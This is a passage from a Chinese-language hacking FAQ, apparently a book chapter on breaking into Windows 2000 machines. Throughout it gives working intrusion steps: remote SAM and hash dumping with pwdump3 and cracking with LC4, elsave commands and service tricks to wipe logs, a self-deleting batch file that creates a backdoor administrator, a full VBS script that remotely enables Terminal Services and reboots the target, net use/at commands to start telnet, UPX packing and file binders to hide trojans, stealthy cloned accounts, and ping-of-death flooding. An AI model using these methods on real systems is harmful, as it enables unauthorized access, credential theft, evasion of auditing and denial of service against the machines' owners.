根据返回的信息可知：`START_TYPE : 2 AUTO_START；ERROR_CONTROL : 1 NORMAL`，这两项基本上就可以断定对方的 Terminal Service 服务是开启的。

## 得到对方的 admin 权限，但是我想得到对方的用户列表，怎么做？

如果可以获得一个 shell 的话，直接用命令 `net user` 就可以看了。不过，获得 shell 的过程也许会比较麻烦，这里教大家一个简单的方法：连接注册表。

首先要保证双方使用 win2k 的计算机。得到 admin 以后，先和对方建立 ipc$ 连接。

然后打开本地的注册表编辑器，选择“注册表”菜单，在里面选择“连接网络注册表”（图11-76）。

连接完成后，来到如下位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`

这下面的主键的值就是用户名。但是，有可能会遇到连接对方注册表后无法显示该键值的情况，例如，我连接的这台主机就只能显示到 `HKEY_LOCAL_MACHINE\SAM\SAM`（图11-77）。发生这种情况的主要原因是因为没有正确地设置权限，不用怕，我们还有办法。

图11-77

点击“开始”->“运行”后，输入 `regedt32`，回车，弹出了另外一个注册表编辑器（图11-78）。

图11-78

这个注册表编辑器与 `regedit` 的最主要的区别就在于它可以进行权限的设置。依次打开“注册表->选择计算机”，会弹出一个卡片，要求输入或是选择一台计算机，输入要连接的远程计算机（图11-79）。

图11-79

然后点确定，一会就会连接成功了。找到远程主机上的 `HKEY_LOCAL_MACHINE` 键值，仍然是到这个位置：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`，在这里将可以看到以用户名来命名的一串主键（图11-80）。

图11-80

如果在这里还不能看见的话，那就需要反复进行几次连接，以便多刷新几次。如果还不行的话，确定你拿到的帐号是管理员帐号，那么就到“安全->权限”菜单中去设置一下权限即可。

哦，忘了说了，在 `regedt32` 下，断开远程注册表的方法是点“注册表－关闭”，点第一次关闭将关闭远程连接到的远程注册表，再点一次的话，将关闭本地注册表。

我扫到一个 cgi 漏洞，`/images` 怎么利用？

一般 `/images` 这样的目录都是用来存放图片的，你最多也就是看看人家那里有什么好图片吧。如果侥幸的话，也许会有些有用的东西，你可以这样访问看看：`http://www.xxx.com/images`。一般情况下是不会有什么有利用价值的东西的，但是，如果真的有的话，那可就赚大了啊。

## 到底什么才是 CGI 漏洞啊？

CGI 漏洞主要是由于程序编写者在编写代码的时候引起的错误，不是很容易说清楚，我们就打个比方。例如，在制作一个 ASP+ACCESS 的 Web 站点的时候，我们把数据库文件放在 `./database` 目录下（一般编写者不会放在这么容易被猜出来的目录下的，只是打个比方而已）。接下来，我们考虑最糟糕的一种状况，那就是对方允许目录浏览，而且，没有对 `/database` 的访问进行过滤，那么，这个时候，我们使用这个地址来访问：`http://www.xxx.com/database`。这时候，就会将 database 目录下的所有数据库文件以列表的形式列出来（图 11-81）。


这时候，我们只要点击其中的一个数据库文件，就可以将它下载到本地机上了（图 11-82）。


这样，如果数据库中保存有明文的密码或是重要信息的话，嘿嘿，后果就很惨了。

当然，这种情况几乎很少见，但是，这就是一个最典型的 CGI 漏洞了。不知道大家对 CGI 漏洞是否有点了解了。当然，像我这样模拟出来的情况在实际中是不多见的，但是，很多的 CGI 漏洞都是有着类似原理的，例如，将数据库文件放在一个很容易猜到的文件夹中，而且，数据库的名字也很有规律；这样，很容易就被猜到并被下载。

## 我 telnet 到一台主机上，该怎么做才能知道当前的操作系统？

用 `ver` 命令可以查看版本号的，但是，例如版本号为 `5.00.2195` 的话，则为 win2k，`5.1.2600` 则为 XP。由于 win9X/ME 以前的版本没有自带 telnet 服务端，所以不讨论。从这些版本上只能判断和区别 2k 和 XP，至于具体为哪一个版本则无法判断。但是，在 telnet 下，我们可以通过服务来判断的，这里，我们使用 `net start` 命令来查看已启动的服务，从这些服务中，我们就可以得知该主机的具体版本是什么。例如，我这里通过 `net start` 命令找到了主机的 Terminal Services 服务已经开启，然后再用 `ver` 命令看一下，这就可以断定该主机是 win2k svr 或是更高的版本（图 11-83）。


如果是 XP 的 Professional 和 Home Edition 怎么区别判断呢？呵呵，想一想哦，Home Edition 是无法安装 IIS 服务的，不是吗？所以嘛，通过这个服务就可以完全区分开 Home Edition 和 Professional 了。但是，如果 Professional 将 IIS 删除或是停止掉了相关服务的话……唉……惨了，认倒霉吧，我是没办法了。

## 我连接到了对方的机器上，但是 C:\WINNT\system32\config 下的 SAM 文件 copy 不下来，怎么办？

这种情况很正常，如果对方运行着 win2k 的系统的话，那么，SAM 文件就是受到保护的，因此，对此文件是不能进行读写的，copy 当然也不可以。

你可以到 `C:\WINNT\repair` 目录下去拿一个同样名为 `sam` 的文件，这个是 SAM 的备份。从里面也可以获得很多有用的东西。

## 如何才能实现远程关机或是重启呢？

首先，要先能保证对方和本机使用的都是 win2k 的操作系统。然后，使用 win2k svr 的工具箱 resource kit 中的工具 shutdown.exe（图 11-84）。


图 11-84

使用该工具具有一定的危险性，大家可以自己做一下实验，一旦运行命令成功的话，在对方的主机上会显示还有 xx:xx 秒计算机将会关闭（或是重启），另外，下面还有一些小字，仔细看会发现上面写着是哪台机器使用 shutdown 命令正在关闭该计算机。

- `shutdown \\computer_name`：是用来远程关机的。
- `shutdown \\computer_name /R`：是用来远程重启的。
- `shutdown \\computer_name /T:10`：指定在 10 秒后关机，这个数可以自己设置（可进一步测试是否可为 0）。

## win2k 的终端服务除了有可能存在输入法漏洞以外，还有什么其他漏洞吗？

有，但是该漏洞默认情况下是无法使用的，需要在远程主机上修改，而且该漏洞可以造成对方死机。对方要修改注册表：

```text
HKEY_LOCAL_MACHINE\CurrentControlSet\Services\i8042prt\Parameters
```

下面增加一个 DWORD 值名为 CrashOnScroll，设置其值为一个不为零的值，例如为 1。

然后用终端服务的客户端连接该主机，登录后，按住键盘右边的 ctrl 键，同时按下两次 ScrollLock，这样就可以 crash 掉整个系统，并且会在 `C:\WINNT` 下 dump 出当前的完整内存，名为 `memory.dmp`。

## win2k部分

这方法是在微软的官方网站上有公布的，所以，也许它并不是一个漏洞，却可以将它作为一个用来 dump 内存的方法来使用，而且我始终搞不明白，为什么要按右 ctrl 键 + ScrollLock，很多笔记本键盘上是没有右 ctrl 键的，怎么办？呵呵，盖茨这不是故意难为这些用户嘛。

## 哪款扫描器最好？被扫描过的主机上不会留下记录。

就 win2k 系统来说，一般的扫描都是不会留下太过明显的记录。但是，有些地方，只要进行过扫描的话，一定会有记录的，那就是 IIS 的记录，像一般的主机上如果启动了 Web 服务器和 FTP 这类服务，无论是使用微软的 IIS 还是用其他的软件，都会有大量的记录。无论哪款扫描器，都会留下的，所以说，除了避免扫描这些过于敏感的端口以外，基本上是没有什么好办法了。

另外，一般的服务器都会装有防火墙，防火墙是不会对那些扫描坐视不管的，它也会对这些扫描有所记录，所以要小心。

## 在使用 NETxray 时提示我未能打开适配器，不知道是什么意思？

发生这种情况的话，常见的是因为在选择网卡的时候选择错误，导致不能找到正确的网卡，因此就产生了不能打开适配器的错误信息。另外，还有可能就是因为网卡上没有插网线，或者即使插了网线也没有能与其他主机连接而导致的。

## 为什么溢出成功，却 telnet 连接不上，我用的是 idahack：idahack xxx.xxx.xxx 80 1 999，提示成功溢出，然后 telnet 到 999 端口，没连上，怎么回事？

```text
idahack xxx.xxx.xxx 80 1 999
```

使用 idahack 溢出成功后所收到的成功信息意思为 shellcode 发送成功，并不一定就在 999 处获得了 shell，还有可能是由于多次溢出导致对方的 IIS 已经 down 掉了，这些都是常见的情况。解决办法就是等，并且同时还要多进行几次溢出，相信“有志者事竟成”，呵呵，会成功的！

## 有没有什么办法可以将两个文件捆绑在一起，当运行其中一个的时候，另外一个也运行？

捆绑机的作用就是将两个文件捆绑，在运行的时候两个程序同时运行。一般情况下，捆绑是将两个 exe 文件进行捆绑的，这里推荐使用广外女生的捆绑机（图 11-85）。


这个捆绑机可以将多个文件捆绑为一个文件。这就是最重要的优点。不过，捆绑后的图标并不好看，需要找一些工具来美化美化才可以，否则的话，很容易上当。

## 入侵成功清除日志的时候，在 W3SVC1 文件夹中有个文件 ex20503.log 总是提示正在使用中，不能删除，怎么办？

W3SVC 是一个服务，它的作用就是记录 Web 服务器的日志，而且这个日志是默认启动的，也就是说，它是随时都在记录并将日志写入文件的，无法删除的那个文件就应该是该服务正在写入的文件，解决办法有两个：

- 1. 停止 W3SVC 这个服务，只要命令 `net stop w3svc` 就可以了（图 11-86）。


- 2. 修改对方的系统时间，因为这个日志是按照时间来记录的（由文件名就可以看出来），只要时间改变了，那么，该服务就将使用另外一个文件开始记录，所以修改时间后，就可以删除原来不允许删除的文件了。改变时间的命令是 `time`，改变日期的命令是 `date`。

## 有没有什么工具可以用来清除 win2k 的日志？

小榕的工具 elsave，这个可以用来清除 win2k 的日志（图 11-87）。


**注意**：它是用来清除 win2k 的“安全日志”“应用程序日志”和“系统日志”的。清除这三个日志的命令分别为：

```bash
elsave -s \\192.168.0.1 -l "application"   # 清除应用程序日志
elsave -s \\192.168.0.1 -l "system"        # 清除系统日志
elsave -s \\192.168.0.1 -l "security"      # 清除安全日志
```

## 用 x-scan 扫描时活动线程突然变得很低，只有 2，应该是什么原因？

不止是 x-scan，还有其他很多的扫描工具都是会根据当前的条件来对线程进行调整，以达到最优的扫描状态。因此，在线路相对较忙的时候，线程肯定会被自动调整得比较低，这都是正常的。另外，如果线路和带宽确实不允许的话，最好能手动将线程设置得低一些，这样才能发挥扫描工具的作用。

## 肉鸡上传了工具，但是在执行的时候就提示找不到文件，怎么回事？

很有可能是因为对方安装了杀毒软件，如果是 telnet 登录的话，可以先上传一个 tlist，然后执行 tlist 来看看进程序列，来查看进程中是否有杀毒软件在运行，如果有的话，上传个 kill 来杀掉它（上面说的 tlist 和 kill 在 win2k 的 support tools 中可以找到，如果不知道用法的话，在《黑客 X 档案》中有介绍）。如果是 Terminal Service 登录的话，那就更容易了，看一下任务栏中是否有杀毒软件的图标，也可以翻看一下文件夹来查找。

## 建立 ipc$ 连接后，copy 文件到对方机器上，结果返回信息“拒绝访问”，这是为什么？

权限不够，建立 ipc$ 连接的用户对要写入的磁盘没有写入的权限，或者是禁止了该用户远程写入。另外，也有可能是即使获得了管理员的权限，但是由于对方使用策略禁止远程写入磁盘的操作，导致“拒绝访问”。

## telnet 到对方主机上后，用这个命令：`C:\WINNT\system32>copy c:\hehe.exe \\192.168.0.7\admins\system32`，提示系统找不到指定的文件。Why?

由于命令是在对方主机上执行，所以说，命令的作用是将对方主机的 C 盘根目录下的 hehe.exe 复制到 `\\192.168.0.7` 主机的 system32 目录下，先确定是否写反了，经常有朋友发生这种情况，搞不清楚命令是在本机执行还是在本地执行，导致命令写反。

如果命令正确，但是却提示“系统找不到指定的文件”就只有一种可能，那就是 C 盘下没有 hehe.exe 这个文件。


图 11-88

## 一台机器，开了防火墙，只留下 80 端口。有 unicode 漏洞，能用 tftp 吗？

理论上来讲是可以的，通过 unicode 漏洞来执行 copy 命令，将本地机上的 tftp 服务 copy 到对方的 system32 目录下，然后运行 tftp，这时候，就可以使用 tftp 上传或者下载文件了（关于 unicode 漏洞的利用，在网上有很多不错的文章，可以参考一下）。

## 我想在 windows 下用 NMAP，是不是需要编译啊？

不需要了，因为早就有人帮你编译好了，现在有 NMAP FOR WIN 的版本，最新版本是 3.1 版，用法和参数在 LINUX 下的完全一样。

## 入侵成功后，我要做什么？

这是一个相当可怕的问题，很多朋友在入侵成功后，居然不知道该去做什么。像这样，没有目的的入侵是没有意义的。如果大家经常做这种没有意义的入侵的话，不如早点收手算了。

一般对黑客来说，入侵成功后，他会继续扩大成果，但是，最重要的，就是不要破坏，不要试图偷看别人的隐私，或是删除别人的重要文件等等。

一般来说，最先要做的，就是种植后门程序，这样，可以方便以后再来，或是将这台主机做成跳板，作为下次攻击其他目标的替死鬼。

如果继续扩大成果的话，就要种植嗅探器（sniffer）了。一般情况下，只有在一些大型的网络中，甚至是域中，才会种植嗅探器，否则针对一台或是几台组成的小型网络进行嗅探的话，意义不大。一般情况下，在域中，成功地攻占了域中某一台主机，为了获得更多的肉鸡，就要嗅探，以获得其他主机的信息，甚至是获得域控制器（DC）的信息等等。

## 有人用过了我的机器，但是走的时候没有关QQ，这样的话，我能获得他的QQ密码吗？

在早一些版本的 QQ 中，存在这样的 bug，就是如果 QQ 没关的话，可以获得密码，但是，现在的版本都不行了。虽然都已经过去了，但是，还是讲一下早期版本中的这个漏洞吧。

在 QQ 左下角，点一下那一行“QQ 2000”，然后选择更改用户（图 11-89）。


然后，会弹出来一个 QQ 的登录对话框（图 11-90），在这里，显示的号码是当前的 QQ 号，而早期版本的话，下面的密码处不会为空，而会是一堆的星号（*），这时候，我们只要找个查看星号密码的工具，就可以看到该用户的密码是什么了。


不过，腾讯早就把这个 bug 补上了，现在已经没办法看了。在这里，只是提一下这个古老的漏洞，让大家知道一下就好了。

## 怎么才能使自己的木马和后门程序不被杀毒软件杀掉？

相对比较简单的办法就是将后门程序压缩。这里就推荐 UPX 吧。使用比较简单，有 GUI 界面下的，也有命令行下的。

先说说 GUI 界面下的（图 11-91），用起来很简单，只要按照提示打开一个文件，然后会自动将其压缩，这样一来的话，一般的杀毒软件都可以躲过去了。


命令行下的 UPX，这才应该是 UPX 最初的模样（图 11-92），直接输入 upx 或是输入 upx 来获得帮助，不过都是英文，嘿嘿，英文不好，不丢人了，相信大家用的都比我多。


## 我给人种了木马，但是对方是拨号上网，我怎么才能获得他每次的IP？

两个选择，第一个就是使用端口反弹式木马，由于这种木马是对方主动连接你，所以，只要通过某种形式（不同的木马使用的方法不一样的）让木马的服务端得到你的 IP，这样你就可以进行连接控制了。第二个方法，那就是随时监视对方，那么，使用 ICQ 或是 OICQ 这类聊天工具就是最好的选择。我们常用的那款 QQ 就可以知道对方的 IP 地址。

## win2k部分

这里，有一个如何获得对方 QQ 的问题。既然你已经控制对方，那么，访问对方的 C 盘（QQ 默认是装在这里的），到如下目录中：`C:\Program Files\Tencent`。这里，可以看到一个或多个以 QQ 号码为目录名的目录（图 11-93），这些 QQ 号就是在本机上使用过的 QQ 了。


## 有没有什么好的工具可以创建一个管理员，然后再将工具自身删除掉？

写一个简单的批处理就可以做到这些了，打开记事本，写上如下内容：

```bat
@echo off
rem hack.bat
net user hacker 1234 /add
net localgroup administrators hacker /add
del c:\hack.bat /f /q
```

然后，将它保存为一个 `*.bat` 文件，上传到对方的 C 盘根目录下，定时运行它，就可以自动创建一个用户名为 hack、密码为 1234 的管理员帐号，并且，在命令完成后，它会自动删除自己。

## 有没有用VBS编写的脚本可以用来打开对方的Terminal Service服务的？

确实是有这样的工具，以下是 VBS 的源代码：

```vb
on error resume next
set outstreem=wscript.stdout
set instreem=wscript.stdin
if (lcase(right(wscript.fullname,11))="wscript.exe") then
    set objShell=wscript.createObject("wscript.shell")
    objShell.Run("cmd.exe /k cscript //nologo "&chr(34)&wscript.scriptfullname&chr(34))
    wscript.quit
end if
if wscript.arguments.count<3 then
    usage()
    wscript.echo "Not enough parameters."
    wscript.quit
end if
ipaddress=wscript.arguments(0)
username=wscript.arguments(1)
password=wscript.arguments(2)
if wscript.arguments.count>3 then
    port=wscript.arguments(3)
else
    port=3389
end if
if not isnumeric(port) or port<1 or port>65000 then
    wscript.echo "The number of port is error."
    wscript.quit
end if
if wscript.arguments.count>4 then
    reboot=wscript.arguments(4)
else
    reboot=""
end if
```

```vb
usage()
outstream.write "Connecting " & ipaddress & " ...."
set objlocator=createobject("wbemscripting.swbemlocator")
set objswbemservices=objlocator.connectserver(ipaddress,"root/cimv2",username,password)
objswbemservices.security_.privileges.add 23,true
objswbemservices.security_.privileges.add 18,true
showerror(err.number)
outstream.write "Checking OS type...."
set colinstoscaption=objswbemservices.execquery("select caption from win32_operatingsystem")
for each objinstoscaption in colinstoscaption
  if instr(objinstoscaption.caption,"Server")>0 then
    wscript.echo "OK!"
  else
    wscript.echo "OS type is " & objinstoscaption.caption
    outstream.write "Do you want to cancel setup?[y/n]"
    strcancel=instream.read
    if lcase(strcancel)<>"n" then wscript.quit
  end if
next
outstream.write "Writing into registry ...."
set objinstreg=objlocator.connectserver(ipaddress,"root/default",username,password).get("stdregprov")
HKLM=&h80000002
with objinstreg
  .createkey HKLM,"SOFTWARE\Microsoft\Windows\CurrentVersion\netcache"
  .setdwordvalue HKLM,"SOFTWARE\Microsoft\Windows\CurrentVersion\netcache","Enabled",0
  .createkey HKLM,"SOFTWARE\Policies\Microsoft\Windows\Installer"
  .setdwordvalue HKLM,"SOFTWARE\Policies\Microsoft\Windows\Installer","EnableAdminTSRemote",1
  .setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Control\Terminal Server","TSEnabled",1
  .setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Services\TermDD","Start",2
  .setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Services\TermService","Start",2
  .setstringvalue HKLM,".DEFAULT\Keyboard Layout\Toggle","Hotkey","1"
  .setdwordvalue HKLM,"SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp","PortNumber",port
end with
showerror(err.number)
rebt=lcase(reboot)
if rebt="/r" or rebt="-r" or rebt="\r" then
outstream.write "Now, reboot target...."
strwqlquery="select * from win32_operatingsystem where primary='true'"
set colinstances=objswbemservices.execquery(strwqlquery)
for each objinstance in colinstances
    objinstance.win32shutdown(6)
next
showerror(err.number)
else
    wscript.echo "You need to reboot target."&vbcrlf&"Then,"
end if
wscript.echo "You can logon terminal services on "&port&" later. Good luck!"

function showerror(errornumber)
if errornumber Then
    wscript.echo "Error 0x"&cstr(hex(err.number))&"."
    if err.description <> "" then
        wscript.echo "Error description:"&err.description&"."
    end if
    wscript.quit
else
    wscript.echo "OK!"
end if
end function

function usage()
wscript.echo string(79,"*")
wscript.echo "ROTS v1.01"
wscript.echo "Remote Open Terminal Services Script, by Everyone"
wscript.echo "Welcome to visit ..."
wscript.echo "www.isgrey.com"
wscript.echo "Usage:"
wscript.echo "cscript "&wscript.scriptfullname&" targetIP username password [port] [/r]"
wscript.echo "port: default number is 3389."
wscript.echo "/r: auto reboot target."
wscript.echo string(79,"*")&vbcrlf
end function
```

将这些东西写到记事本中，然后保存为以 vbs 为后缀名的文件就可以了。如果你的机器上装有超级解霸，也许保存为 vbs 的话，会关联到超级解霸。如果这样的话，就保存后缀名为 vbe。双击这个脚本就会显示帮助，使用方法也很简单（图11-94）。

图11-94

## 如何能远程开启对方的 Task Scheduler 服务？（前提：可以建立 ipc$ 连接）

Task Scheduler 服务是用来制定计划任务的服务，我们常用的 at 命令就是该服务的命令。如果 Task Scheduler 服务停止的话，将不能使用 at 命令。但是，我们可以通过下面的方法来开启远程主机上的 Task Scheduler 服务：

首先，有一点必须得保证，就是使用对方的管理员帐号与对方建立 ipc$ 连接。然后，这样做：

控制面板→管理工具→计算机管理，打开后，右键“计算机管理（本地）”，选择“连接到另一台计算机”（图11-95）。

图11-95

这时候，出现对话框，在这里面填写对方的主机名或是 IP 地址后【如果直接填写主机名或地址提示错误的话，就以这样的形式来填写：\\ip(or machine_name)】，点确定，过一会就可以连上了。这个时候，会看到上面写着对方的 IP 或是机器名，这时候你所打开的“服务”也是对方的，这样就可以随意地开启或是关闭服务了（图11-96）。

图11-96

## 对方只开了 ipc$ 共享，怎么做？

前提是得到了管理员的口令（假设管理员用户名为 administrator，密码为 123）。接下来，就这样做：

首先，我们要先建立连接才可以：`net use \\ip\ipc$ 123 /user:administrator`

然后，为了攻占主机，我们必须要获得一个 shell 才可以，所以用这个命令：

`at \\ip time net start telnet`

得到了 time 这个时间后，我们就可以 telnet 上去了。

对了，忘了说，如果大家喜欢用上传 ntlm.exe 的方式来取消对方 NTLM 验证的话，可有点麻烦了，因为这里，我们不得不给对方开个共享，这样来开：

`at \\ip time net share admin$`

还是等到 time 之后就可以了。这时候大家就可以上传文件了。

通过以上的过程，我们已经获得了 shell，而且还给对方开了共享。接下来，怎么做，就是各位自己的爱好了。

在这里，只提供一些思路，其实，还有很多可以做到的，各位发挥想象力吧。

## 获得了对方管理员的用户名和密码，怎么获得 shell？

如果确定对方开放了 ipc$ 共享的话，我们完全可以按照上面的方法去做。但是，在这里，我们可以借助一个工具直接获得 shell，那就是 opentelnet，使用方法很简单。

```bash
opentelnet \\server administrator password NTLM_value port
```

server 为对方主机地址，administrator 为对方的管理员用户名，password 为密码，NTLM_value 为 0、1、2 的其中一个，port 则为想要开放的端口。

Opentelnet 这个工具很容易就可以开启对方的 telnet 服务（图11-97），值得一试哦。

## win2K部分

图11-97

内置的 Guests 组帐号，所以，如果按上面的方法做的话，有时候还是会出现问题的（按机率说，十台机器上可能有三四台会有这样的问题，好像和软件的设置也有关系），所以最好还是自己建立一个管理员帐号。

> 为什么入侵成功后要克隆或是自己专门创建一个独立的帐号呢？使用管理员帐号不可以吗？

一般情况下，如果是通过一些漏洞入侵成功后，我们都会自创建一个帐号以供以后使用。当然，这也是有特定条件的，条件是：通过该漏洞获得的权限为 system 的权限，这样才有可能创建出管理员帐号。例如，有名的 idq、ida 溢出漏洞，获得的就是 system 权限。

另外一种情况，就是克隆帐号了。在获得了管理员帐号的用户名和密码的情况下，我们会使用克隆帐号的方法来给自己留后门。先说说在什么情况下获得管理员的帐号：最常见的就是弱口令；另外，通过 unicode 这类权限不足的后门来下载对方的 SAM 进行破解也是可行的。当然，还有很多其他的高级方法，例如获得密码散列、通过 sniffer 截取等等。

在获得了管理员的用户名和密码后不直接使用的最大原因是容易被发现。一般的服务器都会加上审核，尤其是登录的审核更加严格。这样，如果是使用管理员帐号在管理员不在的时候登录的话，很容易就会让对方怀疑是被入侵了；但是，如果是克隆的话，例如克隆 IUSR_COMPUTERNAME 这个帐号，这样的话，如果使用它登录的话，管理员会认为是有人在浏览他的 web 页面……

> 进入对方主机后，把 guest 这个帐号加入到 administrators 组中后，一些操作居然说我权限不够，为什么啊？

我们也来做个实验来说明这个问题吧。首先，我们把 guest 帐号加到 administrators，怎么加你会用了吧。然后，使用 `net user guest` 来查看一下 guest 帐号的属性（图11-98）。

图11-98

仔细看看图，注意到这一行：本地组会员 *Administrators *Guests。

加来加去，guest 其实还是在 Guests 组里嘛。所以，用这个命令：

```bash
net localgroup guests guest /del
```

这样就把 guest 从 guests 组里删掉了。这时候再看，guest 就只属于 administrators 组了，现在权限上就应该没有什么问题了。

另外，还要说说，由于 guest 是 win2k 情况下，例如说终端，也是会被发现的），而且，也应该没有哪个管理员会对这种帐号进行审核。

通过以上的分析，可以看出，克隆帐号的隐蔽性要好得多。另外，通过这些讲解，大家也应该能了解到自己在入侵成功后，选取哪一种帐号后门对当前入侵更有利。

图11-101

## 如何修改NTLM的验证方式？

开始→运行，输入 cmd，回车，在 cmd 命令提示符下输入 tlntadmn。在这里，可以看到一些关于修改 telnet 服务配置的选项（图11-99）。

图11-99

在这里，先选择 3，然后再选择 7，就会看到，在这里就可以修改 NTLM 的验证方式了（图11-100），一共有三种。

图11-100

另外，在注册表中也是可以修改的，位置是：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0`

右边窗口中，找到 NTLM 键，修改它的数据就可以了（图11-101）。

## NTLM验证方式可以修改为0、1、2三个值，三个值分别为什么意思？

- 0：不使用 NTLM 身份验证。
- 1：先尝试 NTLM 身份验证。如果失败，再使用用户名和密码。
- 2：只使用 NTLM 身份验证。

一般情况下，入侵的时候，会选择 0 或是 1 这两个值，这样既能有密码保护自己的肉鸡，又可以免受 NTLM 验证的烦恼。

## 入侵的时候遇到这样的问题：

```text
net use \\192.168.0.83\ipc$ /user:administrator
本地名称
远程名称 \\192.168.0.83\ipc$
资源类型 IPC
状态 OK
# 打开 1
# 连接 1
命令成功完成。
D:\>copy d:\netsvc.exe \\192.168.0.83\admin$
拒绝访问。
已复制 0 个文件。
```

问题出在了命令上。由于第一个命令 `net use \\192.168.0.83\ipc$ /user:administrator` 使用错误，第一次使用这样的命令的时候，会忽略后面的 `/user:administrator` 部分，而建立一个空连接。第二次再使用，由于前面已建立连接，则成为了查询状态，就会显示 ipc$ 连接状况了。不信的话，可以在自己的机器上做个实验（图11-102）。

图11-102

这样，第二个问题就迎刃而解了。由于建立的是个空连接，那么，只要磁盘对 everyone 组没有写权限的话，肯定是不能上传文件的（默认配置下 everyone 组就没有写权限，应该没有哪个傻瓜会把写权限给 everyone 组吧）。

对方开了 22 端口，我 telnet 后显示：`SSH-1.99-OpenSSH_3.1p1`。这代表了什么意思啊？

22 端口默认本来就是 SSH 的端口。你这样 telnet 连接上去后，获得了当前的 SSH 服务的版本而已，没有什么值得利用的。

请问 5000 端口是干什么用的？

这个端口是 XP 特有的，是 UPNP（即插即用）服务。在这里存在一个溢出，但是，相应的 exploit 倒是很少见，而且我个人也没有用过。如果大家有兴趣的话，可以到 `http://hack.za.co` 上去找一下，...

copy 以后用 at 命令的时候它的时间一定是 24 小时制的吗？

系统默认的是使用 24 小时制的，一般没有人会改，不过也不一定。一般情况下，如果 telnet 上去的话，可以用 time 命令来看看，比较一下。但是，如果没有获得 shell 的话，那就只好试了，没有别的什么好办法了。

为什么在 win98 下用 x-scan 扫不出 winxp 的用户？

在 windows 中，能够透露 windows 的用户信息的就是 139 端口了，也就是我们熟悉的 NETBIOS 端口。而该端口开放的一个前提条件就是安装了 NETBEUI 协议。然而，在 windows XP 中，微软以 NETBEUI 非标准协议为由没有安装 NETBEUI 协议，这就导致 NETBIOS 端口默认不开放。因此扫描 windows XP 的话，会经常出现扫不到用户信息的情况，这属于正常的。

我用 x-scan 扫描对方主机，知道对方开了 FTP，但是却扫不到，我想到了对方可能修改了 FTP 端口，但是，并没有其他的异常端口啊？

你认为没有异常端口其实是因为 x-scan 这个扫描器的默认配置造成的。打开 x-scan（GUI 界面的），依次选择：设置→扫描参数→端口设置，这里就可以看到，默认情况下，x-scan 只针对一些常见的端口进行扫描（默认情况下扫描的端口都有：1-139，443，445，1080，1433，2049，3128，3389，5000，7000-7010，8010，8080，8181）（图11-103）。

图11-103

这样，如果对方的 FTP 修改的端口并不在列表范围内的话，当然是不会被发现的了。因此大家应该注意，默认的并不一定是最好的。

> 我得到的IP（QQ上的）是不是真实的IP地址，怎么样才能得到真实的IP？

看端口了，如果形式是 `x.x.x.x:4000`，基本上就可以确定这是对方的真正 IP 地址；如果形式是 `x.x.x.x:1027`，可以认为对方是在一个局域网内，通过网关上网的。

另外，根据个人经验，还有一种格式：`x.x.x.x:17391`。这里显示的端口号非常大，一般都是在 10000 以上的端口号。这样的话，可以判断对方为拨号上网。

> 如何判断一台主机属于哪个工作组？

使用命令 `nbtstat` 就可以做到了。这个命令最有用的两点就是：第一，可以获得对方的主机名；第二，可以得知对方所在工作组。不过，要确定你和对方都安装了 NETBEUI 协议并打开了 NETBIOS 端口。

使用命令 `nbtstat ip` or `machine_name`。这时候，在结果中注意查看，第二行有个 group 那一行，前面的就是工作组名了（图11-104）。

图11-104

> 流光4.7，打过补丁后还不能用。有没有新的补丁啊？

流光的过时补丁好像只能作用到 4 月 1 号（为什么要选愚人节？）。这就不能使用了。如果大家想继续使用的话，有个最简单的做法，就是把你的系统时间改一下，改得早一些，最好改到 2001 年，这样的话，流光就又复活了。

> 死亡之ping要怎么做啊？

如果哪一位朋友想实现这个攻击的话，请允许我先打击你一下，一个人的力量，呵呵，不可能的啦。一般要实现这个攻击，要在网速比较快的局域网内相对比较容易实现。多台计算机（保守数字：至少五台吧），使用同一个命令：`ping ip_address 65500`（注意：如果是使用 windows 系统的话，`-l` 这个参数所带的最…）。大值只能为 65500。用这个命令不停地 ping 一台主机，等 ping 到你的胡子白的时候（呵呵，没那么夸张，大概五分钟吧，或者更多）就可以让对方 down 掉，或是暂时死机了。

**注意：**一般来说，如果对方是 win2k 主机的话，是不太容易被 down 掉的。win2k 在这方面的保护机制做得还是比较完善的；但是，暂时的死机却是不可避免的。

## 怎么判断对方的 FTP 服务器使用的是什么？

这个很简单，就是 ftp 上去看看就好了。不过要注意，大家不要在 IE 里面输入 `ftp://ip` 来查看哦，要在 cmd 命令行下输入 `ftp ip`，或者 `ftp` 然后 `open ip` 来进行连接。连接成功后，会有返回信息，从那里很容易就可以看出对方的 FTP 服务器的版本是什么了（图 11-105）。


图 11-105

> 现在，在 win2k 上使用的主流 FTP 服务器一般就两种：一个是微软 IIS 中自带的 FTP 服务器，另外一个则是 Serv-U 了。采用这种方法，都可以很容易地获得 FTP 服务器的版本。

## 443 端口有办法利用吗？

当然有，不过不是入侵，因为这个端口是 https 的端口（SSL 加密协议）。所以说呢，进行劫持更现实一些，劫持什么呢？当然是劫持加密信息了。有相关的工具，但是并不多，我用过一款，名字忘记了，主要是因为不太好用，所以也就不推荐给大家了。有兴趣的朋友可以去搜索一下相关的工具来试试看。

## 如何获得远程主机的密码散列？

使用工具 pwdump3，这是 pwdump2 的后续版本，对于使用了 syskey 的主机也可以用的哦。使用方法很简单：

```
PWDUMP3 machineName [outputFile] [userName]
```

machineName 处写机器名或是 IP 地址均可。

OutputFile 则指明文件生成的目的文件夹和文件名（默认情况下在当前文件夹下生成）。

Username 则为对方主机的账号。

这里，我来 `pwdump3 x.x.x.x psw administrator`，很快，会出现要求输入密码的提示，输入正确的密码，等待一下，就 complete 了（图 11-106）。


图 11-106

然后，到当前文件夹下看一下，就可以找到刚才生成的那个 psw 文件了。

## 获得远程主机散列后，如何破解？

LC4 应该是最好的工具了。打开 LC4 后，选择“导入 wdump 文件导入”（图 11-107）。


然后选择路径，找到刚才保存的那个 PSW 文件。接下来就是慢慢等待结果了。如果不能破解的话，就对 LC4 的破解选项做一些设置。至于如何设置就不用我多说了，这里没有地方再写 LC4 的教程了。

## 我的肉鸡在一个局域网中（机器上种有灰鸽子），我在另一个局域网中，能控制它吗？

